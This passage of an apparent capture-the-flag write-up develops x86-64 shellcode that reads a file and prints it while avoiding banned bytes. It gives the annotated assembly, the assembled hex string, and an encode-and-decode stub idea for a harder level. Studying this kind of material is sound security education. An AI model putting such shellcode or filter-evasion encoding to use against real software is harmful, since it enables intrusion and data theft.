 ```

;xchg rsi, rdi      ; we cannot use this xchg opcode because of 0x48!
push rdi            ; instead, do the exchange of rsi and rdi via the stack
push rsi
pop rdi             ; rdi is now pointing to the filename on the stack
pop rsi             ; rsi is now zero (flag O_RDONLY)

syscall
                    ; pull a similar trick here, swapping around three registers
push rax            ; fd of just opened file
push rsi            ; rsi = 0
push rdi            ; rdi = pointer to top of stack
pop rsi             ; rsi = buf
pop rax             ; rax = 0 syscall read
pop rdi             ; rdi = fd

push byte 127
pop rdx             ; amount of bytes to read
syscall             ; syscall read

push rbx
pop rax
inc al              ; syscall write
push rax            ; copy rax (==1) to rdi
pop rdi             ; 1 = stdout
                    ; rsi = still pointing to buffer with contents of file
                    ; rdx = still 0x7f
syscall
```

Assembling it:

```bash
$ echo; nasm -f bin ./shellcode3.asm; xxd -c 1 ./shellcode3 | awk '{print "\\x"$2 }' |tr -d '\n'; echo; wc -c ./shellcode3

\x6a\x01\x5b\xfe\xcb\x53\x58\x53\x5f\x54\x5e\x6a\x12\x5a\x0f\x05\x53\x58\xfe\xc0\xfe\xc0\x57\x56\x5f\x5e\x0f\x05\x50\x56\x57\x5e\x58\x5f\x6a\x7f\x5a\x0f\x05\x53\x58\xfe\xc0\x50\x5f\x0f\x05
47 ./shellcode3
```

Haha! No bad chars *and* three bytes to spare! 


Level 4
-------

I wasn't laughing anymore once I saw the restrictions placed on the shellcode of level 4:

```
This level have shellcode restriction. Bad char list "\x0a\x0d\x2f\xff\x0f\x05\x48" max size 80 bytes.
```

This bans the use of `syscall`, which assembles to `0x0f, 0x05`. In theory, I think `int 0x80` (`cd 80`) could be used, but I haven't verified. The shellcode needs to be obfuscated and decoded at runtime somehow. I decided to make a very simple encoding & decoding system: the bytes are simply increased by one. At runtime, a small stub of code is responsible for decrementing each byte to it's proper value. 
